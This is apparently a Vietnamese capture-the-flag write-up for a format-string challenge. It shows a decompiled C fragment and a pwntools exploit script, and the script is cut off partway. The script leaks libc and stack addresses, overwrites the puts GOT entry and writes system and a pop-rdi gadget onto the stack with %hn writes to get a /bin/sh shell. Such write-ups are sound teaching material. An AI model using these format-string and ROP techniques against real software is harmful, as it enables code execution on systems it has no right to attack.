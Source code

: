 ```c
  fgets(s1, 16, stdin);
  if ( !strncmp(s1, "no", 2u) )
  {
    puts("\n?? Why would you lie to me about something so stupid?");
  }
  else
  {
    snprintf(s1, 0x3Fu, "\nSorry, you're not the %s...", (const char *)v4);
    puts(s1);
  }
  return 0;
}
```

- ở exploit của mình thì mình dùng `puts` để tạo loop và build rop-chain vô stack , nhưng cách này hơi dài , ta có thể dùng strncpm để tạo loop và ghi `puts` bằng system , sau đó ta chỉ việc truyền `/bin/sh` vào là xong

exp: 

```python
def exploit():
    solve_pow(p)
    payload = f"%{0x11f0-0x18}c%11$hn".encode() + b"|%31$p" + b"%30$p|"
    payload = payload.ljust(0x18, b"a")
    payload += p64(exe.got.puts)
    sl(payload)
    p.recvuntil(b"|")
    address = p.recvuntil(b"|")[:-1].split(b"0x")
    libc.address = int(b"0x" + address[1], 16) - 0x2A1CA
    stack = int(b"0x" + address[2], 16)
    logbase()
    info(f"stack: {hex(stack)}")
    og = one_gadget("libc.so.6", libc.address)
    print(og)
    libc_start_main_stack = stack - 0x98
    info(f"stack libc: {hex(libc_start_main_stack)}")
    pop_rdi = libc.address + 0x000000000010F75B
    bin_sh = next(libc.search(b"/bin/sh\x00"))
    ret = pop_rdi + 1
    info(f"poprdi: {hex(pop_rdi)}")
    info(f"binsh: {hex(bin_sh)}")
    info(f"ret: {hex(ret)}")
    target1 = libc.sym.system & 0xFFFF
    payload1 = f"%{target1-0x18}c%10$hn".encode()
    payload1 = payload1.ljust(0x10, b"a")
    payload1 += p64(libc_start_main_stack + 24)
    sl(payload1)
    sl("no")
    target2 = (libc.sym.system >> 16) & 0xFFFF
    payload1 = f"%{target2-0x18}c%10$hn".encode()
    payload1 = payload1.ljust(0x10)
    payload1 += p64(libc_start_main_stack + 24 + 2)
    sl(payload1)
    sl("no")

    target3 = libc.sym.system >> 32
    payload1 = f"%{target3-0x18}c%10$hn".encode()
    payload1 = payload1.ljust(0x10, b"a")
    payload1 += p64(libc_start_main_stack + 24 + 4)
    sl(payload1)
    sl("no")
    target1 = pop_rdi & 0xFFFF
    payload1 = f"%{target1-0x18}c%10$hn".encode()
```